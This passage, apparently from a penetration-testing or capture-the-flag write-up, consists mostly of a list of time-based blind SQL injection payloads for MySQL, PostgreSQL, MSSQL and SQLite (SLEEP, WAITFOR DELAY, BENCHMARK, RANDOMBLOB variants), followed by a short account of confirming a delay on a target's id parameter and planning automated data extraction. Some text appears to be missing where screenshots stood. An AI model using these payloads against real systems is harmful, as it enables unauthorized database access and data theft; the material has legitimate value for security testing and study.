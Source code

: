 ```
waitfor delay '00:00:05'--
waitfor delay '00:00:05'#
benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
'\"
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
' AnD SLEEP(5) ANd '1
'&&SLEEP(5)&&'1
ORDER BY SLEEP(5)
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
+benchmark(3200,SHA1(1))+'
+ SLEEP(10) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

After this we have to change a bit the source code to make it send all the lines as input, with the goal to trigger some vulns

code

Here is the result

As you can see with the input `{"id":"sleep(5)"#}` we get the desired delay of 5 second and same for next input or `{"id":"1 or sleep(5)#"}`.

Knowing this we can now use a real code that automate the work of the TimeBasedSQLi, letting us to extrafiliate informations. From these documentation of [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection), we can even check the version of the database which is MySQL

